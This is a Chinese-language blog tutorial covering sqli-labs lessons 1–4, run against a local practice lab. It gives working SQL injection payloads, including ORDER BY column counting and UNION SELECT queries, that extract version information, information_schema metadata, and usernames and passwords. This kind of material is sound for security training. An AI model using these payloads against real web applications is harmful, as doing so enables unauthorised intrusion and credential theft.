 ```yaml
---
title: sqli labs lesson 1~4 学习
date: 2016-08-24 21:46:03
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---
```

# 1 lesson 1：基于错误 – 单引号
## 1.1 测试
输入URL  ` http://localhost/sqli-labs-master/Less-1/?id=1 `
![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f75rh022ipj30fy05xdgk.jpg)

在上述网址后面添加单引号 '   `http://localhost/sqli-labs-master/Less-1/?id=1%27 `
![](https://ww3.sinaimg.cn/large/005CA6ZCgw1f75rvy5dn9j30nq05mmyk.jpg)

根据错误信息，推测sql语句类似  ` SELECT * FROM tables WHERE id='$id' LIMIT 0,1`
<font color="red">$id是被单引号包裹的</font>

## 1.2 猜测字段个数
使用 order by 判断字段个数
- 参数 $id = `' order by 5#`
- 输入URL `http://localhost/sqli-labs-master/Less-1/?id=%27%20order%20by%205%23`
- sql语句：`SELECT * FROM tables WHERE id='$id' LIMIT 0,1`，将参数 $id = `' order by 5#`带入，即得 `SELECT * FROM tables WHERE id='' order by 5#' LIMIT 0,1`
- 说明：浏览器对 URL 会转码；第一个单引号闭合sql语句中的单引号；#是数据库注释，注释掉后面的单引号和limit

![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f75smugixtj30ca03xdfz.jpg)

直到输入参数 $id = `' order by 3#`，页面正常显示
![](https://ww4.sinaimg.cn/large/005CA6ZCjw1f75sddgu6hj30c903wq2v.jpg)

<font color="red"> 
说明原sql语句的结果有三个字段
sql 语句类似 `select col1,col2,col3 from tables where id = '$id' limit 0,1`
</font>

## 1.3 union 查询数据库版本和数据库名
- 参数 $id = `' union select 1,2,3%23`
- URL `http://localhost/sqli-labs-master/Less-1/?id=%27%20union%20select%201,2,3%23`

![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f75sscqjybj30cb03xq38.jpg)

查看版本和数据库
- 参数 $id = `' union select 1,version(),database()%23`
- URL `http://localhost/sqli-labs-master/Less-1/?id=%27%20union%20select%201,version(),database()%23`

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f75sni3booj30cb03v0t3.jpg)

- 数据库版本 5.6.17
- 数据库名 security

## 1.4 利用 information_schema 获得信息
关于 information_schema 数据库信息，参见 [INFORMATION_SCHEMA 数据库](http://huirong.github.io/2016/08/24/information-schema/)
### 1.4.1 数据库名
- 参数 $id = `' union select 1,2,(select group_concat(distinct schema_name) from information_schema.schemata)%23`

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f75sx1egqnj30sc03xdgt.jpg)

本地数据库中的数据有：information_schema,challenges,mysql,performance_schema,security,test
本项目的数据库为：security
### 1.4.2 表名
- 参数 $id = `' union select 1,2,(select group_concat(distinct table_name) from information_schema.tables where table_schema = "security")%23`

![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f75tjf3xqdj30ft045jry.jpg)

security 数据中的表：emails,referers,uagents,users

### 1.4.3 字段名
- 参数 $id = `' union select 1,2,(select group_concat(distinct column_name) from information_schema.columns where table_schema = "security")%23`

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f75torfahjj30oe04g759.jpg)

users 表中的字段：id,email_id,referer,ip_address,uagent,username,password

### 1.4.4 账号和密码
- 参数 $id = `' union select 1,(select group_concat(distinct username) from users),(select group_concat(distinct password) from users)%23`
- URL `http://localhost/sqli-labs-master/Less-1/?id=%27%20union%20select%201,(select%20group_concat(distinct%20username)%20from%20users),(select%20group_concat(distinct%20password)%20from%20users)%23`

![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f75ttggpvjj311503fdi1.jpg)

# 2 lesson 2 基于错误 – 数字型
## 2.1 测试
- 参数 $id = `1'`
- URL `http://localhost/sqli-labs-master/Less-2/?id=1%27`
- 错误 `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`

![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f76056s2twj30zh02xmy3.jpg)

说明sql语句类似：`select * from tables where id = $id LIMIT 0,1`，没有单引号，直接是数字型。

## 2.2 数据库版本和名称
- 参数 $id = `1 and 1=0 union select 1,2,3%23`
- URL `http://localhost/sqli-labs-master/Less-2/?id=1%20and%201=0%20union%20select%201,version(),database()%23`

![](https://ww3.sinaimg.cn/large/005CA6ZCgw1f760kucepdj30cb03x74o.jpg)

其他步骤同 lesson 1。

# 3 lesson 3 基于错误-有括号单引号
## 3.1 测试
- 参数 $id = `1'`
- URL `http://localhost/sqli-labs-master/Less-3/?id=1%27`
- 错误 `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1`
![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f760hn80gvj310e0353zg.jpg)

sql 语句 select * from tables where id = ('$id') limit 0,1

## 3.2 数据库版本和名称
- 参数 $id = `') union select 1,version(),database()%23`
- URL `http://localhost/sqli-labs-master/Less-3/?id=%27)%20union%20select%201,version(),database()%23`

![](https://ww2.sinaimg.cn/large/005CA6ZCgw1f760mzp1alj30cb03xgm0.jpg)

# 4 lesson 4 基于错误-有括号双引号
## 4.1 测试
- 参数 $id = `1'` 页面没有错误，继续测试  $id = `1"` ，页面出错
- URL `http://localhost/sqli-labs-master/Less-4/?id=1%22`
- 错误 `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1`

![](https://ww3.sinaimg.cn/large/005CA6ZCjw1f7610l00g9j310h02s3zh.jpg)

sql 语句：select * from tables where id = ("$id") limit 0,1

## 4.2 数据库版本和名称
- 参数 $id = `") union select 1,version(),database()%23`
- URL `http://localhost/sqli-labs-master/Less-4/?id=%22)%20union%20select%201,version(),database()%23`

# 5 参考文献
[SQLI-LABS SERIES PART - 2,3,4,5](http://dummy2dummies.blogspot.com/2012/06/sqli-lab-series-part2.html)


